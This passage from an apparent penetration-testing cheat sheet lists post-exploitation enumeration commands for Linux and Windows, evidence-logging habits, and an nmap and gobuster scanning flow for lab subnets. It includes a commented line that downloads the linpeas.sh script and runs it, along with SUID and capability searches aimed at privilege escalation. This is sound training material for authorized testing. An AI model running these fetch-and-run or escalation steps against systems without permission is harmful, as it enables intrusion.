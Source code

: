 Post-exploitation enumeration
```
# Linux
id; uname -a; ip a; ss -tulpn
sudo -l
find / -perm -4000 -type f -exec ls -la {} + 2>/dev/null | tee loot/suid.txt
getcap -r / 2>/dev/null | tee loot/caps.txt
# curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/linpeas.sh; chmod +x /tmp/linpeas.sh; /tmp/linpeas.sh

# Windows (cmd)
whoami /all
systeminfo
ipconfig /all
net user
wmic service list brief | findstr /i running
# winPEAS, Seatbelt, or accesschk if allowed/uploaded
```

Evidence and cleanup
```
# Save proof, configs, and timestamps
date -Is | tee -a notes/timeline.txt
# Record commands used + output
# Use tee to log: <command> | tee -a notes/evidence.txt

# Cleanup examples (only if permitted by ROE)
# rm -f uploaded test files, revert credentials created, stop test services
```

## Practical tips
- Start least-intrusive; escalate only as ROE allows. Timebox brute-force and directory fuzzing.
- Log everything with full commands and target identifiers. Use -oA in nmap; pipe to tee elsewhere.
- Derive hypotheses from enumeration. Validate with simple, safe checks before exploits.
- Prioritize services with known misconfig patterns in eJPT labs: SMB shares, FTP anonymous, weak SSH creds, vulnerable web endpoints, SNMP public.
- Reuse credentials across the subnet methodically; track successes to avoid lockouts.
- Always capture proof-of-access minimally (e.g., a single file read) without altering systems.
- Keep a living checklist and mark dead ends to avoid duplication.

## Minimal cheat sheet (one-screen flow)
```
# Setup
ENG=acme-q4-pt; mkdir -p ~/pt/$ENG/{notes,scans,loot}; cd ~/pt/$ENG
echo "10.10.10.0/24" > scope.txt

# Discovery
fping -a -g 10.10.10.0/24 2>/dev/null | tee hosts_up.txt
sudo nmap -sn -n 10.10.10.0/24 -oA scans/ping_sweep

# TCP scan + service
for H in $(cat hosts_up.txt); do
  sudo nmap -Pn -n -sS -T4 --top-ports 1000 -oA scans/$H-top1k $H
  P=$(awk -F/ '/open/{print $1}' scans/$H-top1k.nmap | paste -sd, -)
  [ -n "$P" ] && sudo nmap -Pn -n -sC -sV -T4 -p $P -oA scans/$H-sv $H
done

# HTTP quick enum
H=10.10.10.5; P=80
whatweb -a3 http://$H:$P | tee -a notes/web.txt
gobuster dir -u http://$H:$P -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,asp,aspx,jsp,txt,bak,zip -t 50 -o scans/$H-$P-gb.txt

# SMB quick enum
```